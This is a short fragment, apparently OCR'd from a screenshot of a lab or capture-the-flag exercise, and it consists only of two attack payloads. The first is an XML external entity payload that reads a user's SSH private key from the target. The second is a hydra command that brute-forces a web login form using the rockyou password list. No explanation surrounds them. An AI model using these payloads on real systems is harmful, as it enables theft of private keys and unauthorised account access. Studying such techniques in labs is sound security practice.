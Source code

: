 <?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]>
<root>&read;</root>

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.252.5 http-post-form "/api/user/login:username=^USER^&password=^PASS^:Incorrect credentials"

